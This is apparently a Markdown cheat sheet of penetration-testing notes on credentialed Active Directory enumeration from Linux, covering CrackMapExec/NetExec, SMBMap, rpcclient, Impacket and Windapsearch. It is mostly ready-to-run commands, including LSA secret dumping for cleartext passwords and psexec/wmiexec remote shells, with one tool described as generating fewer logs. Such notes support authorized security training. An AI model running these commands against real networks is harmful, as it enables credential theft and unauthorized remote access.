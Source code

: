 # Credentialed Enumeration - from Linux 🐧
## Using CrackMapExec (now NetExec)
### Domain User Enumeration
```powershell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --users
sudo netexec smb <Target-IP> -u <username> -p <password> --users

```
### Domain Group Enumeration
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --groups
sudo netexec smb <Target-IP> -u <username> -p <password> --groups
```
### Logged On Users
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --loggedon-users
sudo netexec smb <Target-IP> -u <username> -p <password> --loggedon-users
```
### Share Searching
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --shares
sudo netexec smb <Target-IP> -u <username> -p <password> --shares
```

#### Dumping LSA secrets
Get user's cleartext password by attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts. 
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> --lsa
sudo netexec smb <Target-IP> -u <username> -p <password> --lsa
```

#### Spider_plus
The module spider_plus will dig through each readable share on the host and list all readable files.
```shell
sudo crackmapexec smb <Target-IP> -u <username> -p <password> -M spider_plus --share 'Department Shares'
sudo netexec smb <Target-IP> -u <username> -p <password> -M spider_plus --share 'Department Shares'
```

---

## Using SMBMap
SMBMap is great for enumerating SMB shares from a Linux attack host.
### SMBMap To Check Access
```shell
smbmap -u <username> -p <password> -d Domain.LOCAL -H <Target-IP>
```
### Recursive List Of All Directories
```shell
smbmap -u <username> -p <password> -d Domain.LOCAL -H <Target-IP> -R 'Department Shares' --dir-only
```
---

## Using rpcclient
### unauthenticated enumeration
```shell
rpcclient -U "" -N <Target-IP>
```
### Authenticated enumeration
```shell
rpcclient -U 'DOMAIN\Administrator%password' <Target-IP>
```
In rpc **rid**: beside each user. A [Relative Identifier](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) (RID) is a unique identifier (represented in hexadecimal format) utilized by Windows to track and identify objects.
### User Enumeration
```shell
> enumdomusers
```
![image](https://github.com/user-attachments/assets/82b57b31-845f-4620-8b38-65395a61bd14)
**Enumeration By RID**
`queryuser RID`
```shell
queryuser 0x1f4
```
Extract Users Descriptions/Comments for extra informations with rpc
[Script.sh](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Automation/Users_Description_Comment_RPC.sh)

### Group Enumeration
```shell
> enumdomgroups
```
![image](https://github.com/user-attachments/assets/e9d41d37-26da-4533-a438-05e8591858ed)
**Get group members**
`querygroupmem RID`
```shell
querygroupmem 0xff0
```

---

## Impacket Toolkit
### psexec.py
```shell
psexec.py Domain.local/User:'Password'@<Target-IP>
impacket-psexec Domain.local/User:'Password'@<Target-IP>
```
### wmiexec.py
utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules.
```shell
wmiexec.py Domain.local/User:'Password'@<Target-IP>
impacket-wmiexec Domain.local/User:'Password'@<Target-IP>
```
---

## Using [Windapsearch](https://github.com/ropnop/windapsearch) that utilizing **LDAP** queries
Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing **LDAP** queries.
### Windapsearch - Domain Admins
``` shell
python3 windapsearch.py --dc-ip <Target-IP> -u User@Domain.local -p <Password> --da
```
### Windapsearch - Privileged Users
``` shell
python3 windapsearch.py --dc-ip <Target-IP> -u User@Domain.local -p <Password> -PU
```

